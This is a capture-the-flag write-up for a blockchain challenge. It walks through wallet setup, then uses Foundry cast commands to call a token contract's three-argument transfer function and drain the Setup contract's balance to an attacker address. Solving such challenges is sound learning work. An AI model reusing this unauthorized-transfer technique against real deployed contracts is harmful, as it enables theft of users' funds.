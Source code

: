 # Note 

## Setup

### MetaMask

#### Account Creation

1. Create an account on MetaMask
2. Go to `Settings > Networks > Add a network`
3. At the bottom of the screen, choose `Add a network manually`
4. Enter any name
5. Enter the RPC URL provided in the challenge page
    > RPC endpoint: http://45.61.132.140:8545/
6. There would be an error message regarding mismatch chain ID. Use the exact chain ID mentioned in the error message (`0x5903`)
7. Enter any currency symbol
8. Save

#### Getting Address, Funds, and Private Key

1. Go to `Account details`
2. The address would be shown in blue box (hexadecimal value)
3. For private key, just click on `Show private key`
4. To get some funds, head to the provided faucet URL and paste in your account address
    > ETH Testnet Faucet: http://45.61.132.140:8080/

### Foundry

```sh
cast wallet new
```

## Solution

> [!NOTE]
> Remember to prefix the private key with `0x`

```sh
nc 45.61.132.140 20000
# choose 1 and save the deployer account and token
cast send $DEPLOYER_ACCOUNT --rpc-url $RPC_ENDPOINT --private-key $PRIVATE_KEY --value 0.001ether
nc 45.61.132.140 20000
# choose 2 and provide back the token obtained from previous step to get the contract address
export SETUP_ADDR="<contract address>"

forge init --shallow --no-git Solve
rm -f ./Solve/src/* ./Solve/test/*
cp ./contracts/* ./Solve/src/
forge build

cast interface ./Solve/out/Setup.sol/Setup.json
cast interface ./Solve/out/OsuCoin.sol/OsuCoin.json

cast call $SETUP_ADDR --rpc-url $RPC_ENDPOINT "coin()(address)"

export COIN_ADDR="<output of previous command>"
cast call $COIN_ADDR --rpc-url $RPC_ENDPOINT "balanceOf(address)(uint128)" $SETUP_ADDR

cast send $COIN_ADDR --rpc-url $RPC_ENDPOINT --private-key $PRIVATE_KEY "transfer(address,address,uint256)(uint160)" $SETUP_ADDR $HACKER 1000000
cast call $COIN_ADDR --rpc-url $RPC_ENDPOINT "balanceOf(address)(uint128)" $SETUP_ADDR
cast call $COIN_ADDR --rpc-url $RPC_ENDPOINT "balanceOf(address)(uint128)" $HACKER

cast call $SETUP_ADDR --rpc-url $RPC_ENDPOINT "isSolved()(bool)"
nc 45.61.132.140 20000
# choose 3 and profit
```

## Appendix

Use `cast call` if the function is declared with `view` keyword, otherwise use `cast send`
